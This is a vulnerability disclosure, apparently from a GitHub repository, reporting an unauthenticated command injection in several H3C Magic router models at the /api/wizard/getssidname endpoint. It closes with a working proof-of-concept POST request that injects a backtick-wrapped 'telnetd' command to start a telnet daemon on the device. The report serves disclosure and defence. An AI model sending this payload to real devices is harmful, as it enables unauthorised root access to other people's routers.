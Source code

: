 # Information

**Vendor of the products:** H3C Technologies Co., Ltd.

**Vendor's website:** https://www.h3c.com/

**Reported by:** Guan Qing Wen(2144987805@qq.com)

**Affected products:** H3C Magic NX15\H3C NX400\H3C Magic R3010\H3C Magic BE18000\H3C Magic NX30 Pro

**Affected firmware version:** <=V100R014 (Taking NX15 as an example.)

**Firmware download address:** [H3C NX15V100R014](https://www.h3c.com/cn/d_202409/2263952_30005_0.htm)

## Overview

In the `H3C` `Magic` series products, including `H3C Magic NX15`, `H3C NX400`, `H3C Magic R3010`, `H3C Magic BE18000`, and `H3C Magic NX30 Pro`, an attacker can send a specially crafted `POST` packet to the `/api/wizard/getssidname` route without authorization, allowing them to obtain the highest privileges on the device.

## Vulnerability details

In the `api` file, the `FCGI_WizardProcess` function contains the `/wizard/getssidname` route, which can trigger the corresponding handler function

![image-20250314162137974](https://raw.githubusercontent.com/Qwen11/picture/main/202503141621068.png)

Due to the failure to filter backticks as dangerous characters, command injection occurs

![QQ_1741940712383](https://raw.githubusercontent.com/Qwen11/picture/main/202503141625827.png)

## Poc

```
POST /api/wizard/getssidname HTTP/1.1
Host: 192.168.124.1
Content-Length: 11
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.124.1
Referer: http://192.168.124.1/home
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

'`telnetd`'
```
